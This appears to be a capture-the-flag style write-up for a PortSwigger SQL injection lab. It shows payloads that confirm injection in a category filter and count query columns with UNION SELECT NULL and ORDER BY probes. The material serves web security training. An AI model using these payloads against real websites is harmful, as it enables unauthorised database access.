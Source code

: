 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  
Python script (manual payload): [script_manual.py](script_manual.py)

## Known information

- vulnerable to SQL injection in the product category filter
- UNION based vulnerability
- Goal: Find out correct number of colums in SQL result with a UNION attack

## Query

The query might be something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

### Confirm injectable argument

The category-filtering works based on the URL argument `category`. Confirm that this argument is injectable by creating an error.

The normal argument is e.g. `/filter?category=Accessories`. Start by injecting a single quote `/filter?category=Accessories'`.

--> This result in an Internal Server Error by the application as the SQL query is not invalid. It likely looks like this, having an illegal single quote at the end:

```sql
SELECT * FROM someTable WHERE category = 'Accessories''
```

Try the good case by injecting something that results in a valid query: `/filter?category=Accessories%27%20or%201=1--`. This results in a query like this, returning all rows and commenting the erronious single quote and anything that might come after:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' or 1=1--'
```

It returns the same content as with no filter, this is an indication that whatever would come afterwards and is commented out does not interfere with the result.

### Count colums by UNION SELECT

In a UNION, the result sets need to contain the same number of colums. Injecting `' UNION (select null)--` will produce a server error.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null)--'
```

By increasing the number of 'nulls', the correct column count can be found by injecting `' UNION (select null, null, null)--`. Therefore, this query is valid:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null, null, null)--'
```

![success](img/success.png)

### Count columns by ORDER BY

An alternative way would be to count the columns with ORDER BY. Injecting `' ORDER BY 1--` will order the results by the first column of the result. Incrementing the value leads to an internal server error when using `' ORDER BY 4--`. Thus the correct number of colums is 3.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' ORDER BY 4--
```
